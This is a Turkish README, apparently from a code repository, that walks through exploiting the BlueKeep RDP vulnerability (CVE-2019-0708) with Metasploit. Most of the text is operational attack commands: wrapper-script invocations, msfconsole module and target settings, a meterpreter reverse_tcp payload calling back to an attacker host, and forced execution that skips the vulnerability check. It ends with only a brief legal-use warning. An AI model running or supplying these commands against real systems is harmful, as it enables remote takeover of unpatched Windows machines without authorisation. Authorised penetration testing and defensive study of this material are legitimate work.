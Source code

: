 # BlueKeep Metasploit Kullanım Kılavuzu

Bu belge, CVE-2019-0708 (BlueKeep) güvenlik açığını istismar etmek için Metasploit Framework'ü nasıl kullanacağınızı açıklar.

## Gereksinimler

- Metasploit Framework
- Python 3
- Hedef Windows makineler (Windows 7, Windows Server 2008, Windows XP vb.)

## Metasploit Kurulumu

Eğer sisteminizde Metasploit Framework yüklü değilse:

```bash
sudo apt update
sudo apt install metasploit-framework
```

## Metasploit ile BlueKeep Exploit'i Kullanımı

### Otomatik Script ile Kullanım

Sağlanan Python scripti, Metasploit'i kullanarak BlueKeep exploit'ini çalıştırmanızı kolaylaştırır:

```bash
python3 metasploit_bluekeep.py -i HEDEF_IP -l YEREL_IP
```

#### Zorla Çalıştırma (Vulnerability Check Bypass)

Exploit otomatik güvenlik kontrolünü geçemezse, şu şekilde zorla çalıştırabilirsiniz:

```bash
python3 metasploit_bluekeep.py -i HEDEF_IP -l YEREL_IP -f
```

veya doğrudan zorla çalıştırma betiğini kullanabilirsiniz:

```bash
python3 force_exploit.py -i HEDEF_IP -l YEREL_IP
```

### Manuel Metasploit Kullanımı

1. Metasploit konsolunu başlatın:
   ```bash
   msfconsole
   ```

2. BlueKeep exploit modülünü kullanın:
   ```
   use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
   ```

3. Hedef IP adresini ayarlayın:
   ```
   set RHOSTS 192.168.1.10
   ```

4. (Opsiyonel) Hedef sistem türünü belirtin:
   ```
   set TARGET 1
   ```
   Desteklenen hedefler:
   - 0: Otomatik hedefleme
   - 1: Windows 7 SP1
   - 2: Windows 7 SP0
   - 3: Windows Server 2008 R2 SP1
   - 4: Windows Server 2008 R2 SP0
   - 5: Windows Server 2008 SP1

5. Payload ayarlayın:
   ```
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.5
   set LPORT 4444
   ```

6. (Gerekirse) Güvenlik kontrolünü atlayın:
   ```
   set ForceExploit true
   set AutoCheck false
   ```

7. Exploit'i çalıştırın:
   ```
   exploit
   ```

## Sorun Giderme

Exploit çalışmıyorsa:

1. Hedef sistemin açığa karşı savunmasız olduğundan emin olun
2. Otomatik kontrolleri devre dışı bırakıp zorla çalıştırmayı deneyin:
   ```
   set ForceExploit true
   set AutoCheck false
   exploit
   ```
3. Farklı bir TARGET değeri deneyin
4. 32-bit sistemler için farklı payload deneyin: `windows/meterpreter/reverse_tcp`

## Güvenlik Uyarısı

Bu aracı yalnızca yasal penetrasyon testleri, güvenlik araştırmaları ve kendi sistemleriniz üzerinde kullanın. İzinsiz sistemlere erişim sağlamak yasadışıdır ve cezai sorumluluk doğurabilir.

## Desteklenen Hedefler

BlueKeep açığı aşağıdaki Windows sürümlerini etkiler:

- Windows XP
- Windows Vista
- Windows 7
- Windows Server 2003
- Windows Server 2008
- Windows Server 2008 R2

64-bit sistemlerde daha güvenilir çalışır ve varsayılan x64 payload'ı kullanır. 32-bit sistemler için `windows/meterpreter/reverse_tcp` payload'ını kullanabilirsiniz.
